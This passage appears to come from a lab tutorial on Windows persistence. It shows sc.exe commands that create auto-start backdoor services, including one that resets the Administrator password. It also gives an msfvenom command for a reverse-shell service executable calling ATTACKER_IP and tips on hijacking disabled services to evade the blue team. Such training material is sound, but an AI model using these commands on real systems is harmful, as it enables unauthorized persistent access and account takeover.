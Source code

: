 Finally, create a listener for your reverse shell and try to open any .txt file on the victim machine (create one if needed). You should receive a reverse shell with the privileges of the user opening the file.

---

## 3. Abusing Services

There are two main ways we can abuse services to establish persistence: either create a new service or modify an existing one to execute our payload.

### 3.1 Creating backdoor services

We can create and start a service named "service1" using the following commands:

```Command Prompt
sc.exe create service01 binPath= "net user Administrator Passwd123" start= auto
sc.exe start service01
```

**Note: There must be a space after each equal sign for the command to work.**

The "net user" command will be executed when the service is started, resetting the Administrator's password to `Passwd123`. Notice how the service has been set to start automatically (start= auto), so that it runs without requiring user interaction.

Resetting a user's password works well enough, but we can also create a reverse shell with msfvenom and associate it with the created service. Notice, however, that service executables are unique since they need to implement a particular protocol to be handled by the system. If you want to create an executable that is compatible with Windows services, you can use the `exe-service` format in msfvenom:

```Bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4448 -f exe-service -o rev-svc.exe
```

You can then copy the executable to your target system, say in `C:\Windows` and point the service's binPath to it:

```Command Prompt
sc.exe create service02 binPath= "C:\windows\rev-svc.exe" start= auto
sc.exe start service02
```

### 3.2 Modifying existing services

While creating new services for persistence works quite well, the blue team may monitor new service creation across the network. We may want to reuse an existing service instead of creating one to avoid detection. Usually, any disabled service will be a good candidate, as it could be altered without the user noticing it.

You can get a list of available services using the following command:

```Command Prompt
C:\> sc.exe query state=all
SERVICE_NAME: Service1
DISPLAY_NAME: Service1
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 1077  (0x435)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```
